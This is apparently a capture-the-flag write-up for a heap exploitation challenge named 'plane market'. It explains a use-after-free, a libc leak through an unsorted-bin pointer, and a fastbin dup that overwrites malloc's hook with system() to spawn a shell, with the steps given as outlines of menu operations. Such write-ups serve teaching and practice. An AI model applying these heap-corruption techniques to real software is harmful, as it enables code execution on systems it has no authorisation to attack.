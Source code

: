 # plane market

## Vulnerability
- Use After Free
- Out of Bound (Not exploited)

## Overview
* There's 7 options. But 3 options are important.
	* ![sell plane](./sell_plane.png?raw=true)
	* ![delete plane](./delete_plane.png?raw=true)
		* Allocated with any size and freed the desired heap chunk at any time.
		* But size is integer range (4 byte).
		* the structure is the followings. **not saved in heap. just only in `plane_list`**
		```c++
		struct plane {
			char *name;		// 8 byte
			int cost;		// 4 byte --> 8 byte (cuz' alignment)
			time_t t;		// 8 byte
			char *comment;	// 8 byte
			int name_size;	// 4 byte --> 8 byte (cuz' alignment)
		}
		```
	* ![change plane name](./change_plane_name.png?raw=true)
		* Once accessed in here, it's able to access the freed heap.
		* [`Use After Free`]

## Exploit
* Memory Leak
	* Using main-arena's address from unsorted bin
	```
	sell_plane(Unsorted-bin)
	sell_plane(fastbin) <--- for not merging
	...
	free(unsorted-bin)
	sell_plane(0x00) <--- not entered name, name = main-arena's address
	view_plane(idx=0) <--- print name of first chunk
	```
	* ![1](./1.png?raw=true)

* Get Shell
	* fastbin dup using UAF + overwrite malloc hook
	```
	sell_plane(fastbin1)
	sell_plane(fastbin2)
	change_plane_name(fastbin1)
	delete_plane(fastbin2) # fastbin -> 2
	delete_plane(fastbin1) # fastbin -> 1 -> 2
	change_plane_name(fastbin1) # fastbin -> 1 -> FAKE_CHUNK (&_malloc_hook)
	...
	sell_plane(fastbin) # allocated at addr of fastbin1
	```
	* ![2](./2.png?raw=true)
	* Allocated `&_malloc_hook - 0x3`, which is name's address.
		* Notice that name's address - 0x10 has a structure of heap chunk, fastbin.
	* Just enetered the address of `system()`.
		* malloc(size) == system(size)
		* "/bin/sh\x00" is hex values of 8 bytes, so not proper at integer type.
		* "sh" is 0x6873. (good cheet) write at address of name's size.
		* malloc(size) == mallo(&0x6873) == system("sh")
	* p.s: one shot not matched :(
	
